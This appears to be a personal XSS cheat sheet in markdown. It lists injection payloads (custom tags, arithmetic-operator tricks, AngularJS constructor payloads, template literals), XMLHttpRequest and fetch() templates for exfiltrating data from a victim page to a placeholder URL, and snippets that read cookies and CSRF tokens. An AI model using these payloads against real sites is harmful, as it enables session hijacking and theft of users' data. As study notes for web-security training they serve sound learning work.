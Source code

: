 # [XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## Custom Tags
Sometimes we can inject custom tags into the page.
Ex: `<custom-tag onmouseover='alert("xss")'>`
**Note: In this case not closing the custom tag with `</custom-tag>` succeeds, but if we close the tag
it fails.**

## Interesting Payloads
### Arithmetic Operators To Execute JS Functions
**Payload:** `http://'-alert(1)-'`
**Final Result:** `<a id="author" href="http://'-alert(1)-'" onclick="var tracker={track(){}};tracker.track('http://'-alert(1)-'');">name</a>`
**Explanation:**
Sometimes adding arithmetic operators around JS functions might execute the function.
JS evaluates the payload above like so: `('http://' - alert(1)) - ''`, `('http://' - alert(1))` evaluates to `NaN`, then `NaN - ''` evaluatesto `NaN` too, but since the `alert()` function was evaluated in the first expression, it is executed. This technique only works in the a context where JS code can be executed (not in HTML).

## XSS To Exfiltrate Data
Remember that these are XSS payloads and should be executed within `<script></script>` tags.
### Using `XMLHttpRequest()`
```javascript
// Only add event listener if the payload should be executed on page load
window.addEventListener("load", function() {
	var xhr = new XMLHttpRequest();
	xhr.open("<http-method>", "<target-url>");
	var data = "<data-to-send>"
	xhr.send(data)
});
```
### Using `fetch()`
```javascript
// Only add event listener if the payload should be executed on page load
window.addEventListener("load", function() {
	var data = new FormData();
	data.append("key", "value");

	fetch("<target-url>", {
		method: '<http-method>',
		mode: 'no-cors',
		body: data
	});
});
```

### Reflected XSS In Template Literals
When an input is reflected on the page and within the page's source code it is inside a JS template literal (string within \`\`) we can execute JS functions with payloads like the following `${alert()}`.

## XSS in AngularJS
### Checking If XSS is Possible
	{{ 1 + 1 }} (Should return 2)

### ng-app Directive
	{{ $on.constructor('alert(1)') () }}
	{{ $eval.constructor('alert(1)') () }}

## READ JS FILES IF POSSIBLE / RELEVANT
### Where Is The Content Being Rendered?
JavaScript files might be relevant if some content on the page is only rendered by executing JavaScript code.
One way to know is to view the page's source code on the browser and check whether some content that is rendered on the screen
is missing from the source code. If that is the case, then that content might be rendered by JavaScript and therefore reading JS files
could be relevant to finding an XSS attack.

### The Replace Function
When the `replace()` function is given a string as its first argument it only replaces the first occurence of that string.
Ex:
```javascript
myString = '<h1>hello</h1>'
myString.replace('<', '&lt;').replace('>', '&gt;') // myString = '&lt;hello&gt;'

myString = '<><h1>hello</h1>'
myString.replace('<', '&lt;').replace('>', '&gt;') // myString = '&lt;&gt;<h1>hello</h1>'
```
## Accessing Values With JavaScript
### Accessing Cookie Values
```javascript
var csrf = document.cookie // In case of one cookie only
var cookieArray = document.cookie.split("; ") // Gives an array of key=value pairs we can split each on the = sign
var csrfCookieArray = cookieArray[0].split('=') // Gives an array csrf = ["key", "value"]
var csrfValue = csrfCookieArray[1] // Gives the value of the CSRF token
```
### Accessing HTML Element Attribute Values
```javascript
// Get the value of the first element with name=csrf
var csrf = document.getElementsByName('csrf')[0].value // Notice the plural Elements with an s.

// Get the value of the element with id=csrf
var csrf = document.getElementById('csrf').value // Notice the singular Element without an s.
```
